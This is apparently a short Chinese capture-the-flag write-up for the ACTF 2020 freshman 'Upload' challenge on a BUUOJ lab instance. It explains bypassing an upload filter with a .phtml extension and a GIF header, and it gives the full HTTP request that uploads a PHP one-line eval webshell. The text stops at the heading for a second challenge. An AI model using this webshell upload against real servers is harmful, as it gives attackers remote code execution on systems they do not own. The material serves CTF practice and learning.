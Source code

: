 # 2021/07/06

## Upload

> ACTF 2020 新生赛

### 题目

这个题也是个上传的基本题，利用图片马加`phtml`绕过，会得到上传路径，蚁剑连接即可

### payload

```http
POST / HTTP/1.1
Host: 44bc62a4-017a-4355-bb9e-9eea2f0ca8c0.node4.buuoj.cn
Content-Length: 327
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://44bc62a4-017a-4355-bb9e-9eea2f0ca8c0.node4.buuoj.cn
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBqT5nlAPBf5GT9T5
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://44bc62a4-017a-4355-bb9e-9eea2f0ca8c0.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0
Connection: close

------WebKitFormBoundaryBqT5nlAPBf5GT9T5
Content-Disposition: form-data; name="upload_file"; filename="bme.phtml"
Content-Type: image/gif

GIF89a
<?php
eval($_POST['bme']);
?>
------WebKitFormBoundaryBqT5nlAPBf5GT9T5
Content-Disposition: form-data; name="submit"

upload
------WebKitFormBoundaryBqT5nlAPBf5GT9T5--
```

## BackupFile

> ACTF 2020 新生赛

### 题目
